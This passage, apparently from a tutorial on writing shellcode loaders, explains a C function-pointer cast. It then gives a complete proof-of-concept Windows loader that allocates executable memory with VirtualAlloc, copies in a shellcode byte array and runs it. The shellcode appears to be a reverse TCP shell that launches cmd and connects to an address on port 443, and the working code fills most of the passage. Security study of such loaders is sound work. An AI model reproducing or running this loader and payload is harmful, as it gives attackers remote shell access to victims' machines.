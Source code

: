 - **void(*)():** This part declares a function pointer. Here, it specifies that we are dealing with a pointer to a function that returns nothing (void). The `(*)` syntax indicates a pointer to a function, and `void` specifies the return type of the function.
    
- **(void(*)())pAddr:** This part casts the variable `pAddr` to a function pointer of type `(void(*)())`. This casting essentially treats the contents of `pAddr` as if they were a function pointer.
    
- **((void(*)())pAddr)():** Finally, this invokes the function that the `pAddr` has been cast to. The `()` at the end indicates a function call. Since `pAddr` has been cast to a function pointer, this line executes the function that `pAddr` points to.

In other words, this syntax casts the executable memory region to function, and directly executes it by pointing the execution pointer to the start of the function. This C syntax on the assembly level, is literally translated into a jump instruction to the address allocated from `VirtualAlloc`.

With that, our final piece of POC looks like that:
```C
#include <stdio.h>
#include <windows.h>

unsigned char buf[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00"
"\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x6e\x89"
"\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
"\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29"
"\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48"
"\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea"
"\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
"\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81"
"\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00"
"\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0"
"\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01"
"\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41"
"\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d"
"\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48"
"\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5"
"\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";


int main()
{
	LPVOID pAddr = VirtualAlloc(NULL, sizeof(buf), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(pAddr, buf, sizeof(buf));
	((void(*)())pAddr)();
}
```
